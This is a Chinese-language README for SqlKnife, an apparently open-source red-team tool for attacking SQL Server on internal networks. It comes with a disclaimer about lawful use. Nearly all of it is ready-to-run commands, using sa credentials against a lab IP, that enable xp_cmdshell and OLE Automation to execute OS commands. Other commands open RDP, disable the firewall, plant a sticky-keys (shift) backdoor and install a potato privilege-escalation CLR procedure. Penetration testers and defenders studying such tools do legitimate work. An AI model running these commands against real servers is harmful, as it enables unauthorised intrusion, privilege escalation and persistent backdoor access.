 # 工具名称

郑重声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担。

## 0x01 介绍

作者：hl0rey

团队：0x727，未来一段时间将陆续开源工具，地址：https://github.com/0x727

定位：内网SQL Server数据库安全检测

语言：C++、C#

功能：在命令行下对SQL Server进行命令执行、提权等安全检测操作

## 0x02 安装

无其他额外依赖

## 0x03 效果展示

### 使用xp_cmshell执行命令

#### 恢复xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --fix

![](img/Snipaste_2021-08-03_10-46-08.png)

![Snipaste_2021-08-03_10-46-29](img/Snipaste_2021-08-03_10-46-29.png)

#### 执行命令

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd -c whoami

![Snipaste_2021-08-03_10-47-04](img/Snipaste_2021-08-03_10-47-04.png)

#### 禁用xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --remove

![Snipaste_2021-08-03_10-47-56](img/Snipaste_2021-08-03_10-47-56.png)


### 使用Ole Automation Procedures执行命令

无回显，不好用

#### 恢复Ole Automation Procedures

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate --fix

![Snipaste_2021-08-03_10-55-46](img/Snipaste_2021-08-03_10-55-46.png)

#### 执行程序

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123  --oacreate -c calc.exe

![Snipaste_2021-08-03_10-55-46](img/Snipaste_2021-08-03_10-55-46.png)

![Snipaste_2021-08-03_10-56-34](img/Snipaste_2021-08-03_10-56-34.png)

### 开RDP，关防火墙加规则（开RDP时自动加），装shift后门

权限足够的前提下，基于注册表的操作

#### 开启RDP

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --openrdp

![Snipaste_2021-08-03_11-36-43](img/Snipaste_2021-08-03_11-36-43.png)

![Snipaste_2021-08-03_11-36-57](img/Snipaste_2021-08-03_11-36-57.png)

#### 关防火墙

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --disfw

（可能不好用，可能是因为注册表位置参考windows10的原因）

![Snipaste_2021-08-03_11-42-58](img/Snipaste_2021-08-03_11-42-58.png)

#### 劫持shift键

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --shift

![Snipaste_2021-08-03_11-45-54](img/Snipaste_2021-08-03_11-45-54.png)

![Snipaste_2021-08-03_11-29-11](img/Snipaste_2021-08-03_11-29-11.png)

### PotatoInSQL

将土豆提权(--dbup)作为存储过程安装到数据库，然后调用。

#### 安装.net3.5版本的potatoinsql

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup --fix  --3

![Snipaste_2021-08-03_11-17-47](img/Snipaste_2021-08-03_11-17-47.png)

![Snipaste_2021-08-03_11-18-02](img/Snipaste_2021-08-03_11-18-02.png)



#### 利用土豆执行命令

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup -c whoami

![Snipaste_2021-08-03_11-28-46](img/Snipaste_2021-08-03_11-28-46.png)

![Snipaste_2021-08-03_11-29-11](img/Snipaste_2021-08-03_11-29-11.png)

### 启用/还原配置功能

![Snipaste_2021-08-03_11-29-35](img/Snipaste_2021-08-03_11-29-35.png)

做完操作之后把配置和CLR程序集清理掉。

--fix参数和--remove参数只涉及--xpcmd、--oacreate、--clrcmd、--clrdexec、--dbup


### 指定不同版本clr的payload

--3/--4 如果不加这个参数，默认是.net4版本的payload

## 0x04 使用方法 

| 语法                                                         | 功能                                                        |
| :----------------------------------------------------------- | :---------------------------------------------------------- |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --fix | 启用xp_cmdshell，其他fix类型功能都是这个格式                |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd -c whoami | 使用xp_cmdshell执行命令，其他命令执行功能也是这个格式       |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --remove | 禁用xp_cmdshell，其他remove类型功能也是这个格式             |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate --fix | 恢复Ole Automation Procedures                               |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123  --oacreate -c calc.exe | Ole Automation Procedures执行程序                           |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --openrdp | 开启RDP                                                     |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --disfw | 关闭防火墙                                                  |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --shift | 劫持shift键                                                 |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup --fix  --3 | 安装.net3.5的甜土豆提权存储过程，如果安装.net4.0的话就是--4 |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup -c whoami | 利用甜土豆执行命令                                          |

## 0x06 实现原理

使用windows ADO连接SQL server数据库无需其他额外依赖，使用C#编写SQL CLR利用payload。

## 0x07 新增功能

无

## 0x08 反馈


SqlKnife 是一个免费且开源的项目，我们欢迎任何人为其开发和进步贡献力量。

* 在使用过程中出现任何问题，可以通过 issues 来反馈。
* Bug 的修复可以直接提交 Pull Request 到 dev 分支。
* 如果是增加新的功能特性，请先创建一个 issue 并做简单描述以及大致的实现方法，提议被采纳后，就可以创建一个实现新特性的 Pull Request。
* 欢迎对说明文档做出改善，帮助更多的人使用SqlKnife。
* 贡献代码请提交 PR 至 dev 分支，master 分支仅用于发布稳定可用版本。

*提醒：和项目相关的问题最好在 issues 中反馈，这样方便其他有类似问题的人可以快速查找解决方法，并且也避免了我们重复回答一些问题。*